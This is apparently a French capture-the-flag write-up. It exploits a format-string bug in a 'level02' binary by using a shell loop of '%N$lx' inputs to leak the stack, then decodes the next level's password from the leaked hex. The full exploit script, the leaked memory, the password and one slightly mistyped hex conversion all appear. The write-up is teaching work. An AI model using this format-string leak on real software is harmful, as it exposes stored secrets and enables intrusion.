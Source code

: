 # LEVEL 02

Le binaire level02 ne contiens qu'une fonction **main**.

Cette fonction appelle **open** de **"/home/users/level03/.pass"** suivi d'une comparaison menant à un **exit**, puis un **fread**.

Cela nous restreint dans notre utilisation de GDB, mais on sait que le **pass** est stocké quelque-part dans la **stack**.

Le programme lit 2 fois sur l'entrée standard via **fgets**.

La premiere string **login** est passée en premier argument à la fonction **printf**.

La deuxième string **passwd** est comparée au fichier **level03/.pass** et si la comparaison réussie le programme lance un **shell**.

On peut via le **script** ci dessous récupérer dans un fichier les valeurs stockées dans la **stack** de la fonction **main**:

<pre>
#!/bin/sh
IDX=0
while [ $IDX -lt 361 ]
do
echo $IDX >> /tmp/hexmap
(python -c "print '%$IDX\$lx ' + '\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'  + '\n'") | ~/level02 | grep "access!" >> /tmp/hexmap
IDX=$((IDX+1))
echo $IDX
done
</pre>

En regardant le fichier créé on trouve un zone mémoire contenant 40 caractères suivie d'un \0:

<pre>
%0$lx  does not have access!
7fffffffe4f0  does not have access!
0  does not have access!
0  does not have access!
2a2a2a2a2a2a2a2a  does not have access!
2a2a2a2a2a2a2a2a  does not have access!
7fffffffe6e8  does not have access!
1f7ff9a08  does not have access!
...
100000000  does not have access!
0  does not have access!
756e505234376848  does not have access!
45414a3561733951  does not have access!
377a7143574e6758  does not have access!
354a35686e475873  does not have access!
48336750664b394d  does not have access!
0  does not have access!
20786c24383225  does not have access!
...
</pre>

On peut essayer de traduire cette string de 40 char.

On doit inverser la position de chaque valeur dans chaque zone mémoire pour passer de little endian à big endian.
Puis convertir les valeurs de l'hexa vers la **table ascii**:

<pre>


	little endian	 => big endian		 => str
1.	756e505234376848 => 4868373452506e75 => Hh74RPnu
2.	45414a3561733951 => 51397361354a4145 => Q9sa5JAE
3.	377a7143574e6758 => 58674e5743717a37 => XgNWCqz7
4.	354a35686e475873 => 7358476e68354a35 => sXGnh5J5
5.	48336750664b394d => d4394b6650673348 => M9KfPg3H
0 => length 40


passwd => Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
</pre>

En le testant:
<pre>
./level02
"test"
"Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H"
Greetings, test!
$>
</pre>